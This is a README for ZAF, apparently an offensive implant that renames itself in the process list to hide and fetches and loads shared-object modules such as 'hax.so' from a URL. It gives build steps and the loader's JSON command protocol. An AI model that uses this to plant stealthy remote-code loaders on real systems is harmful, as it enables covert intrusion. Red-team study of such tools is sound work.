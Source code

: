 
## Usage:

1. Start ZAF background daemon: 

`./bin/zaf`

_Note_: it will rename itself in process tabel accordingly to your configuration

2. Reference client operation:

For details on a protocol please see _ZAF Command Protocol_ section below

```
Usage: ./tools/zclient.sh <cmd> [cmd args]
Example: ./tools/zclient.sh listmod
Example: ./tools/zclient.sh loadmod http://127.0.0.1:8080/hax.so
Example: ./tools/zclient.sh loadmod file://tmp/hax.so
Example: ./tools/zclient.sh unloadmod /hax.so
```
*TODO*: HTTP/S is not tested yet but should be supported

## Build

There are a couple of ways to build ZAF dependencies:  static and dynamic.
Dynamic would look for shared libraries on destination machine. 
Static would create a _mostly_ self-contained executable. The one issue I am not able to solve is to include libnss functons like `gethostbyaddr`. This needs to be tested if you are dropping a binary without compilation. 

In general, ZAF would need _libOpenSSL_, _libcURL_ and a couple of one-file libraries already included in `/extsrc` directory.
Below is how to build them. The build is mostly on Kali - Debian 9 testing. CentOS notes where applicable.

```
CentOS - libc 2.17
Kali   - libc 2.27
```

### _libOpenSSL_: Static

[Building OpenSSL](https://wiki.openssl.org/index.php/Compilation_and_Installation)

1. Fetch current (_3.0.0-dev_) OpenSSL repo: 

`git clone git://git.openssl.org/openssl.git`

_Note_:CentOS has static glibc, and so it may depend on:

`yum install gcc glibc-static libstdc++-static -y`

2. Configure:

```
./config no-shared no-threads no-dso no-engine no-err no-psk no-srp no-ec2m no-weak-ssl-ciphers no-idea no-comp no-ssl2 no-ssl3 -DOPENSSL_USE_IPV6=0 -static -static-libgcc --prefix=/root/Code/dist/openssl
```

3. Make: 

```
make 
make install_sw
```

###  _libcURL_: Static

1. Fetch current (_7.64.0_) cURL repo: `git clone https://github.com/curl/curl`

_Note_: CentOS depends:

`yum install libtool autoconf automake nroff m4 -y`

2. `./buildconf `

3. Configure:


```
CPPFLAGS="-I/root/Code/zombieant/ext/openssl/include" LDFLAGS="-L/root/Code/zombieant/ext/openssl/lib -static" ./configure --with-ssl -without-zlib --disable-debug --enable-optimize --disable-curldebug  --disable-ares  --disable-shared --disable-thread --disable-rt --disable-largefile --disable-ldap --disable-ldaps --disable-rtsp --disable-dict --disable-telnet --disable-tftp --disable-pop3 --disable-imap --disable-smtp --disable-gopher --disable-manual --disable-libcurl-option --disable-ipv6 --disable-threaded-resolver --disable-pthreads --disable-verbose --disable-tls-srp --enable-unix-sockets --disable-cookies --without-winssl --without-schannel --without-darwinssl --without-polarssl --without-mbedtls --without-cyassl --without-wolfssl --without-mesalink --without-nss --without-libpsl --without-libmetalink --without-librtmp --without-winidn --without-libidn2 --enable-static --prefix=/root/Code/zombieant/ext/curl
```


4. Make:

`make curl_LDFLAGS=-all-static`

5. Copy `libcurl.a` to ZAF `/lib`

### libcJSON

ref: [cJSON] (https://github.com/DaveGamble/cJSON)

1. Fetch source: `git clone https://github.com/DaveGamble/cJSON`

2. Build 

```
make all
make install DESTDIR="/root/Code/dist/cJSON"
```


3. Copy `libcjson.a` to ZAF `/lib`:


### Other External Source dependencies (source only):

One-file or small supporting utilities:

[septroctitle] (https://github.com/simplegeo/setproctitle/blob/master/src/spt_status.c)
[C99 log.c] (https://github.com/rxi/log.c)

### ZAF

1. Run:

`make`

Warnings are from functions from libraries I was unable to include in the static build (it will look on dest system, so may want to build on the same distro).

```
make -C ./src
make[1]: Entering directory '/root/Code/zombieant/zafsrv/src'
/usr/bin/ld: /root/Code/zombieant/zafsrv/lib/libcurl.a(libcurl_la-netrc.o): in function `Curl_parsenetrc':
netrc.c:(.text+0x434): warning: Using 'getpwuid_r' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
/usr/bin/ld: /root/Code/zombieant/zafsrv/lib/libcurl.a(libcurl_la-curl_addrinfo.o): in function `Curl_getaddrinfo_ex':
curl_addrinfo.c:(.text+0x1b0): warning: Using 'getaddrinfo' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
/usr/bin/ld: /root/Code/zombieant/zafsrv/lib/libcrypto.a(libcrypto-lib-b_sock.o): in function `BIO_gethostbyname':
b_sock.c:(.text+0x251): warning: Using 'gethostbyname' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
make[1]: Leaving directory '/root/Code/zombieant/zafsrv/src'

```

## ZAF Command Protocol

- Listmod:

```json
{"command": "listmod"}

```

- Loadmod:

```json
{ 
 "command": "loadmod", 
 "args": [ 
       { "modurl": "http://127.0.0.1:8080/hax.so" } 
  ] 
}
```

- Unloadmod:

```json
{ 
 "command": "unloadmod", 
 "args": [ 
       { "modname": "hax.so" } 
  ] 
}
```
